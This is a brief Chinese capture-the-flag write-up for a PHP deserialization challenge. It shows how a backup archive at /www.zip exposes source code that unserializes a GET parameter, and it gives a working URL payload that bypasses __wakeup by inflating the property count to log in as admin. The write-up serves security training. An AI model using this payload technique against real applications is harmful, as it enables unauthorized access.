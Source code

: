 

## 知识点

* [反序列化绕过__wakeup魔术方法](https://www.cnblogs.com/Mrsm1th/p/6835592.html)（**当成员属性数目大于实际数目时可绕过**）

## 解题过程

题目说备份，应该是要下载网站源代码审计。我用的扫描工具是dirsearch（没扫出来）

在扫描工具还没扫出来的时候我乱试了一个/www.zip居然成功了。

代码审计发现index.php有个

``` php
    $select = $_GET['select'];
    $res=unserialize(@$select);
```

应该是个反序列化绕过__wakeup获取到flag

## payload

``` php
/index.php?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}
```

